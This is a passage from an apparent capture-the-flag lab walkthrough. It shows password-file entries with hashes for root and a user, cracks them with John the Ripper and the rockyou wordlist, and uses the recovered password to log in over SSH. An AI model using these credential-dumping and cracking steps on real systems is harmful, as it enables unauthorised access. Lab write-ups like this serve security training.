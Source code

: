 ```bash
hplip:*:110:7:HPLIP system user,,,:/var/run/hplip:/bin/false
systemd-coredump:!!:999:999:systemd Core Dumper:/:/usr/sbin/nologin
296640a3b825115a47b68fc44501c828:$6$x4sSRFte6R6BymAn$zrIOVUCwzMlq54EjDjFJ2kfmuN7x2BjKPdir2Fuc9XRRJEk9FNdPliX4Nr92aWzAtykKih5PX39OKCvJZV0us.:1000:1000:,,,:/home/296640a3b825115a47b68fc44501c828:/bin/rbash
```

Now we are saving the hashes of the users `root` and `296640a3b825115a47b68fc44501c828` to a file named `hashes.txt`
```bash
cat hashes.txt 
root:$6$RucK3DjUUM8TjzYJ$x2etp95bJSiZy6WoJmTd7UomydMfNjo97Heu8nAob9Tji4xzWSzeE0Z2NekZhsyCaA7y/wbzI.2A2xIL/uXV9.:0:0:root:/root:/bin/bash
296640a3b825115a47b68fc44501c828:$6$x4sSRFte6R6BymAn$zrIOVUCwzMlq54EjDjFJ2kfmuN7x2BjKPdir2Fuc9XRRJEk9FNdPliX4Nr92aWzAtykKih5PX39OKCvJZV0us.:1000:1000:,,,:/home/296640a3b825115a47b68fc44501c828:/bin/rbash
```

Trying to crack the hashes using the password list `rockyou.txt`
```bash
$ john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 2 candidates buffered for the current salt, minimum 8 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
server           (296640a3b825115a47b68fc44501c828)     
1g 0:00:00:05 7.88% 2/3 (ETA: 08:35:44) 0.1845g/s 2333p/s 2664c/s 2664C/s erin1..peggy1
Use the "--show" option to display all of the cracked passwords reliably
Session aborted
```

> Yay! We got credentials for a user: `296640a3b825115a47b68fc44501c828:server`.
{: .prompt-info }

## login via `ssh`
```bash
$ ssh 296640a3b825115a47b68fc44501c828@192.168.183.85                                                                                                                   130 ⨯
296640a3b825115a47b68fc44501c828@192.168.183.85's password: 
Linux 60832e9f188106ec5bcc4eb7709ce592 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
-rbash: dircolors: command not found
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ id
uid=1000(296640a3b825115a47b68fc44501c828) gid=1000(296640a3b825115a47b68fc44501c828) 
groups=1000(296640a3b825115a47b68fc44501c828)
```
